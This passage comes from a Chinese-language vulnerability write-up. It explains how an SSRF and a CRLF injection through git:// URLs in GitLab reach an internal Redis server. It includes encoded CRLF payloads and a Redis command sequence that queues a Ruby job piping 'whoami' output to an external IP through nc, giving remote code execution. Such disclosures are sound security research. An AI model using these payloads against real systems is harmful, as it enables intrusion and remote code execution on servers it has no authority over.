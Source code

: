 出现了一个错误，说`’get’`命令的一些参数是错误的，这是有意义的，因为从前面的例子中，知道`’get’`命令如何在`Redis`中工作。但是，后来又退回了`shell`里，然而从早些时候开始，看到即使有错误`Redis`也不会退出，那么到底发生了什么呢?将原始`HTTP`协议数据逐行粘贴可以得到答案。第二行

	Host: [0:0:0:0:0:ffff:127.0.0.1]:1234

负责`Redis`意外终止连接。这是因为`SSRF`到`Redis`是一个巨大的问题，`Redis`已经实现了一个`fix`。如果字符串`”Host:”`以命令形式呈现给`Redis`服务器，它就会知道这是一个试图私下执行`Redis`命令的`HTTP`请求，并通过关闭连接来停止执行。

只有当能够在第一行(get /test…)和第二行(Host:…)之间获得`payload`时，才能使其工作。既然控制了`HTTP`请求的第一行，可以注入一些新行并添加更多命令吗?

	*cough* CRLF *cough*

在安全发布和提交历史中看到的`CRLF`注入错误，可以使用它! 从提交历史的测试用例中，可以看到注入是非常直接的。例如，仅仅通过添加新行或`URL`编码就可以实现这一目的。

```
http://127.0.0.1:333/%0D%0Atest%0D%0Ablah.git

# Expected to be Converted To 
http://127.0.0.1:333/
test
blah.git
```


然而并没有成功。不确定为什么这不能工作，但是通过将协议从`http://` 更改为`git://` 可以使其工作。

```
# Does work :)
git://127.0.0.1:333/%0D%0Atest%0D%0Ablah.git

# Expected to be Converted To 
git://127.0.0.1:333/
test
blah.git
```

现在已经知道了`Redis`是什么，它在哪里被使用，以及如何使用`CRLF`注入添加新行，接下来可以为`RCE`创建`payload`。这个想法是通过使用`SSRF`漏洞与内部`Redis`服务器通信，并将一个协议`(Redis)`私接到另一个协议`(git://)`中，并获得远程代码执行。

幸运的是，[@jobertabma](https://twitter.com/jobertabma)已经测试出了[payload - Evaluating Ruby code by injecting Rescue job on the system_hook_push queue through web hook](https://hackerone.com/reports/299473)。现在看看。

```shell
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```

如你所知，`Redis`还可以用于后台工作队列。这些工作由[Sidekiq](https://github.com/mperham/sidekiq)处理，它是`ruby`的后台任务处理器。可以查看[sidekiq队列](https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/config/sidekiq_queues.yml)的列表，看看是否有可以使用的东西。

```
...
- [default, 1]
- [pages, 1]
- [system_hook_push, 1]
- [propagate_service_template, 1]
- [background_migration, 1]
...
```
